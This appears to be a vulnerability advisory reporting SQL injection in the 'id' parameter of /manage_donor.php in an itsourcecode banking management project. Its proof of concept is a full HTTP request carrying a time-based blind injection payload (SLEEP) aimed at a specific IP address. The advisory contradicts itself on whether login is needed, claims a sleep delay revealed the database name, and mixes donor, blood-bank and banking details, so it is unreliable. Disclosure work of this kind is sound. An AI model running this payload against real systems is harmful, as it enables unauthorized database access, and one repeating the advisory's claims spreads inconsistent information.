


# itsourcecode Banking Management System V1.0 SQL Injection Vulnerability

## NAME OF AFFECTED PRODUCT(S)
- Banking Management System

## Vendor Homepage
https://itsourcecode.com/free-projects/php-project/banking-management-system-project-in-php-free-download/

## AFFECTED AND/OR FIXED VERSION(S)
- V1.0

# Vulnerable File
- /manage_donor.php

## VERSION(S)
- V1.0

## PROBLEM TYPE
# Vulnerability Type
- SQL Injection

## Root Cause
- A SQL injection vulnerability was found in the "/manage_donor.php" file of the "Banking Management System Project In PHP". The reason for this issue is that attackers can inject malicious code from the parameter 'id' after logging in with valid credentials. The application fails to properly sanitize or validate this input before using it in SQL queries. This allows attackers to manipulate SQL queries and perform unauthorized operations.

## Impact
- Attackers can exploit this SQL injection vulnerability to no unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
During the security review of "Banking Management System", a critical SQL injection vulnerability was discovered in the "/manage_donor.php" file. attackers can inject malicious SQL queries through this parameter. Immediate remedial measures are needed to ensure system security and protect data integrity.

## Vulnerability Location:
- 'id' parameter

## POC:
```
GET /manage_donor.php?id=1+AND+(SELECT+9728+FROM+(SELECT(SLEEP(5)))XRJn) HTTP/1.1
Host: 154.219.114.125:1921
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="154", "Not;A=Brand";v="24", "Google Chrome";v="154"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: close


```



A 5-second delay was observed, confirming that the database name is “bloodbank_db”



## No AUTHENTICATION REQUIRED
- Exploitation No requires authentication or prior access to the system.

## Suggested Repair
1. Use Prepared Statements and Parameter Binding:
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepared statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. Input Validation and Filtering:
   Strictly validate and filter user input data to ensure it conforms to the expected format. For example, ensure that nominee IDs match a valid numeric pattern.

3. Minimize Database User Permissions:
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as 'root' or 'admin') for daily operations.

4. Regular Security Audits:
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
